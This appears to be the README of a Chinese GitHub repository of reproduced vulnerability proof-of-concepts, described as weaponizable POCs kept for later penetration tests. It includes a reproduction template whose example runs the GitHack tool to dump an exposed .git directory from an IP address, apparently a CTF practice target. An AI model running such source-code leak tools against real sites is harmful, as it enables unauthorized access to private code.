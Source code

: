 # poc-hub
将之前复现过的poc收集于此处，包括成功复现的和因为环境原因未成功复现的，为日后的渗透测试提供便利

当前仓库没有漏洞分析只有可武器化的POC

漏洞复现模板如下：
```
# 0x00 软件介绍
git：分布式版本控制系统

# 0x01 复现环境
使用环境：攻防世界中的环境  
复现版本：无

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

# 0x03 利用条件
无

# 0x04 影响版本
无

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

git clone https://github.com/lijiejie/GitHack  
cd ./GitHack-master  
python ./GitHack.py http://124.126.19.106:31232/.git/  
如下图  
![image](./0.png)  
![image](./1.png)  

# 0x06 踩坑记录
坑0：Exploit aborted due to failure: bad-config: Set the most appropriate target manually  
表示需要设置对应的目标

# 0x07 参考链接
https://github.com/rapid7/metasploit-framework/pull/12283
```
